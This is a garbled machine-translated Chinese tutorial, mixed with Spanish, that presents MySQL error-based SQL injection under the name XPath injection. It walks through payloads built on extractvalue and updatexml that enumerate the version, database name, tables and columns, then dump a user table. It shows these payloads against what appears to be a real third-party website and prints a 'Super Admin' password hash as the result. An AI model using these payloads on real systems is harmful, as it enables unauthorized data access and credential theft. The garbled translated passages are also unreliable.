






# 用实际例子理解 XPath 注入。

> 原文：<https://infosecwriteups.com/understanding-xpath-injection-with-practical-examples-6aa81043e4aa?source=collection_archive---------1----------------------->



在这篇文章中，您将了解 XPath 注入，我会尽可能讲得清楚。

## 什么是 xpath 注入？

> 当用户可控制的数据以不安全的方式合并到 XPath 查询中时，就会出现 XPath 注入漏洞。攻击者可以提供精心编制的输入，以突破其输入出现的数据上下文，并干扰周围查询的结构。
> 
> 根据使用易受攻击的查询的目的，攻击者可能会利用 XPath 注入缺陷来读取敏感的应用程序数据或干扰应用程序逻辑。
> 
> [https://portswigger.net/kb/issues/00100600_xpath-injection](https://portswigger.net/kb/issues/00100600_xpath-injection)
> 
> inyección XPath surgen cuando 的易受攻击性通常是在将 XPath 合并到一个管理器中时使用的。有一次，一名专业人员参加了一个协商会议，并参与了会议结构的调整
> 
> 随后，建议为弱势群体提供咨询服务，帮助他们了解应用程序中的机密数据或应用程序中的干扰因素。
> 
> https://portswigger.net/kb/issues/00100600_xpath-injection

## 检测漏洞

为了检测网站中的这一漏洞，我们首先必须找到它的参数，并在这些参数上测试以下一些符号，以便在其结构中生成一个错误，并找出该网站是否存在或可能存在漏洞:

```
sitio/parametro.php?id=1  -->  sitio/parametro.php?id=-1sitio/parametro.php?id=1  -->  sitio/parametro.php?id=1'
```

Ejemplo:



在图中我们可以看到，在参数值前添加“-”已经产生了一个错误。

## 爆炸注射

为了利用此漏洞，我们将重点关注两个函数，它们是:extractvalue 和 updatexml

**提取值**

> extractvalue 函数接受两个字符串参数:一段 XML 标记和一个 XPath 表达式(也称为定位器)。它返回第一个文本节点的文本(即 CDDATA)，该文本节点是与 XPath 表达式匹配的一个或多个元素的子元素。
> 
> la función extract value()to dos argumentos de cadena:一个 marcado XML 片段和一个 XPath 表达式(también conocida como localizador)。开发文本(es decir，CDDATA)是文本的基础节点，它是与 XPath 表达式一致的元素的 hijo。
> 
> [https://mariadb.com/kb/en/extractvalue/](https://mariadb.com/kb/en/extractvalue/)

**更新 xml**

> 这个函数用一个新的 xml 片段 new_xml 替换给定 XML 标记片段 xml_targt 的单个部分，然后返回更改后的 XML。xml_target 中被替换的部分与用户提供的 XPath 表达式 xpath_expr 相匹配。如果没有找到与 xpath_expr 匹配的表达式，或者找到了多个匹配项，该函数将返回原始的 xml_target XML 片段。三个参数都应该是字符串。
> 
> 这是一个函数，它包含了一个单独的 xml 片段，目标是一个新的 XML 片段。xml_target 的一部分与 XPath _ express proportional for usual 一致。如果不包含与 xpath_expr 一致的表达式，或者包含与 xml_target original 一致的变量。这是卡德纳斯的三个论点。
> 
> [https://mariadb.com/kb/en/updatexml/](https://mariadb.com/kb/en/updatexml/)

## 数据库版本

现在我们知道了这个站点是易受攻击的，我们也知道了它的功能，我们将开始利用这个漏洞。

要获得该版本，我们将使用以下任何有效载荷:

```
-49+and extractvalue(0x0a,concat(0x0a,(select version())))-49+and updatexml(null,concat(0x0a,(select version())),null)
```



我们可以看到，在 PHP 错误下出现了 Xpath 错误，并给出了我们需要的信息，在这种情况下，数据库的版本是:

```
XPATH syntax error: ' 5.7.34'
```

## 数据库名称

要知道数据库的名称，我们使用以下内容:

```
+and extractvalue(0x0a,concat(0x0a,(select database())))+and updatexml(null,concat(0x0a,(select database())),null)
```



在错误中，它向我们显示了数据库的名称:

```
XPATH syntax error: ' stepae_stepliv'
```

## 数据库中表的名称

要获得数据库中表的名称，我们使用以下代码:

```
+and extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 0,1)))+and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 0,1)),null)
```

在图像中，我们可以看到结果。



但是如果你注意的话，我们最后使用了“limit 0，1 ”,这是因为 xpath 不允许我们显示多于 1 行。

由于“极限 0，1 ”,我们可以获得更多数据:

```
and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 0,1)),null) --> XPATH syntax error: ' accesslevel'and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 1,1)),null) --> XPATH syntax error: ' logintype'and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 2,1)),null) --> XPATH syntax error: ' menu'and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 3,1)),null) --> XPATH syntax error: ' menuaccess'and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 4,1)),null) --> XPATH syntax error: ' payments'
```

在这种情况下，我感兴趣的信息在“用户”中

```
and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 36,1)),null)XPATH syntax error: ' user'
```

是的，我一张一张地寻找一张有趣的桌子。

## 列名

在这个例子中，我将采用“用户”表。

为了获得这些列，我们使用了以下有效载荷。

```
+and extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name= limit 0,1)))+and updatexml(null,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name= limit 0,1)),null)
```

我们将把十六进制编码的表名放在这里。示例:

```
user = 0x75736572[+and](https://www.step.ae/products.php?cat=-49+and) extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name=0x75736572 limit 0,1)))
```

在该表中，我们有以下几列:

```
[+and](https://www.step.ae/products.php?cat=-49+and) extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name=0x75736572 limit 0,1))) ---> XPATH syntax error: ' id'[+and](https://www.step.ae/products.php?cat=-49+and) extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name=0x75736572 limit 1,1))) ---> XPATH syntax error: ' name'[+and](https://www.step.ae/products.php?cat=-49+and) extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name=0x75736572 limit 2,1))) ---> XPATH syntax error: ' password'[+and](https://www.step.ae/products.php?cat=-49+and) extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name=0x75736572 limit 3,1))) ---> XPATH syntax error: ' email'[+and](https://www.step.ae/products.php?cat=-49+and) extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name=0x75736572 limit 4,1))) ---> XPATH syntax error: ' accesslevel'
```

## 阅读信息

最后，为了访问列中的信息，我们有以下内容:

```
and extractvalue(0x0a,concat(0x0a,(select concat(columna) from tabla limit 0,1)))
```

回到专栏的信息，我对阅读专栏很感兴趣:

```
name y password
```

为了访问此信息，请执行以下操作:

```
and extractvalue(0x0a,concat(0x0a,(select concat(name,'::::',password) from user limit 0,1)))
```

这给了我一个结果:

```
XPATH syntax error: ' Super Admin::::dc8ced213373d2d3'
```



我希望这种写作是你喜欢的！